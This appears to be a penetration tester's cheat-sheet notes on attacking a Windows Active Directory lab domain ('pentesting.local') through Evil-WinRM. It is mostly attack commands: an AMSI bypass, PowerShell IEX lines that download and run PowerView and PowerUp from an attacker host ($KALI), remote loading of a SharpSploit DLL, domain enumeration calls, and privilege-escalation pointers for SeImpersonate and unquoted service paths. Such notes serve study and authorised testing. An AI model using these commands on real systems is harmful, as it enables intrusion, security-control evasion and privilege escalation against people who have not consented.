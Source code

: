 | SAMPLE DC RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | DC |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | dc.pentesting.local |
| SAMPLE AD RESULTS | FROM SCANS |
| --- | --- |
| NETBIOS_DOMAIN_NAME  | PENTESTING |
| NETBIOS_COMPUTER_NAME  | AD |
| DNS_DOMAIN_NAME  | pentesting.local |
| DNS_COMPUTER_NAME  | ad.pentesting.local |
#### 24 EvilWinRM
![[Port 5985 - WinRM ~#Steps]]
#### 25 EvilWinRM + Local Priv Esc Upload and Download
![[Port 5985 - WinRM ~#Downloading files - MUST USE FULL PATHS]]
![[Port 5985 - WinRM ~#Uploading files - MUST USE FULL PATHS]]
#### 26 EvilWinRM + Local Priv Esc PowerView ps1
Download the following:
```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1
```
```
wget https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerView/powerview.ps1
```
```
menu
```
```
Bypass-4MSI
```
[[Python#Server]]
```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerView.ps1')
```
```
IEX(New-Object Net.WebClient).DownloadString('http://$KALI/PowerUp.ps1')
```
```
Invoke-AllChecks
```
#### EvilWinRM + Local Privilege Escalation SharpSploit Enumeration
https://github.com/cobbr/SharpSploit
GUIDE: https://blog.king-sabri.net/red-team/how-to-compile-embed-and-use-sharpsploit
[[Python#Server]]
```
Bypass-4MSI
```
```
Dll-Loader -http -path http://$KALI/SharpSploit.dll
```
```
menu
```
```
[SharpSploit.
```
Hit tab a few times to see all possibilities!
```
[SharpSploit.Enumeration.Net]::GetNetLocalGroupMembers()
```
```
[SharpSploit.Enumeration.Net]::GetNetLocalGroups()
```
```
[SharpSploit.Enumeration.Net]::GetNetLoggedOnUsers()
```
```
[SharpSploit.Enumeration.Net]::GetNetSessions()
```
```
[SharpSploit.Enumeration.Net]::GetNetShares()
```
#### 33 EvilWinRM + Local Priv Esc SEImpersonate
[[7._Potato or PrintSpoofer#PrintSpoofer]]
#### 34 EvilWinRM + Local Priv Esc Unquoted Service Path
[[16._Unquoted Path]]
Depending on which folder we have read / write access to:
C:\Program.exe
C:\Program Files\Abyss.exe
C:\Program Files\Abyss Web\ Abyss Web Server\abyssws.exe